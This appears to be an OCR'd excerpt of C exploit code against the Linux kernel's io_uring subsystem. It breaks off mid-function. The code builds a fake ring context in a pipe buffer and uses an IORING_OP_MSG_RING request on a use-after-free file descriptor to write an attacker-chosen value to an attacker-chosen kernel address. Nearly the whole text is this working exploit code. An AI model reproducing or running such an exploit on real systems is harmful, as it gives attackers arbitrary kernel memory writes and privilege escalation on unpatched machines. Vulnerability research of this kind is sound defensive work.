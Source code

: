 ```
    uint64_t *cached_ptr = (uint64_t *)&buf[cqe_cached];
    *cached_ptr = NULL_MEM;

    // Set ctx->cqe_sentinel
    size_t cqe_sentinel = g_scratch + 0x248;
    cqe_sentinel &= 0xFFF;
    uint64_t *sentinel_ptr = (uint64_t *)&buf[cqe_sentinel];

    // We need ctx->cqe_cached < ctx->cqe_sentinel
    *sentinel_ptr = NULL_MEM + 1;

    // Set ctx->rings so that ctx->rings->cq.tail is written to. That is at 
    // offset 0xc0 from cq base address
    size_t rings = g_scratch + 0x10;
    rings &= 0xFFF;
    uint64_t *rings_ptr = (uint64_t *)&buf[rings];
    *rings_ptr = where - 0xc0;

    // Set ctx->cached_cq_tail which is our what
    size_t cq_tail = g_scratch + 0x250;
    cq_tail &= 0xFFF;
    uint32_t *cq_tail_ptr = (uint32_t *)&buf[cq_tail];
    *cq_tail_ptr = what;

    // Set ctx->cq_wait the list head to itself (so that it's "empty")
    size_t real_cq_wait = g_scratch + 0x268;
    size_t cq_wait = (real_cq_wait & 0xFFF);
    uint64_t *cq_wait_ptr = (uint64_t *)&buf[cq_wait];
    *cq_wait_ptr = real_cq_wait;
}

void write_what_where(uint32_t what, uint64_t where)
{
    // Reset the page contents
    reset_pipe_buf();

    // Setup the fake file target ctx
    char buf[4096] = { 0 };
    write_setup_ctx(buf, what, where);

    // Set contents
    write(g_pipe.fd[PIPE_WRITE], buf, 4096);

    // Get an sqe
    struct io_uring_sqe *sqe = NULL;
    sqe = io_uring_get_sqe(&g_ring);
    if (!sqe)
    {
        err("`io_uring_get_sqe()` failed");
    }

    // Set values
    sqe->opcode = IORING_OP_MSG_RING;
    sqe->fd = g_uaf_fd;

    int ret = io_uring_submit(&g_ring);
    if (ret < 0)
    {
        err("`io_uring_submit()` failed");
    }

    // Wait for the completion
    struct io_uring_cqe *cqe;
```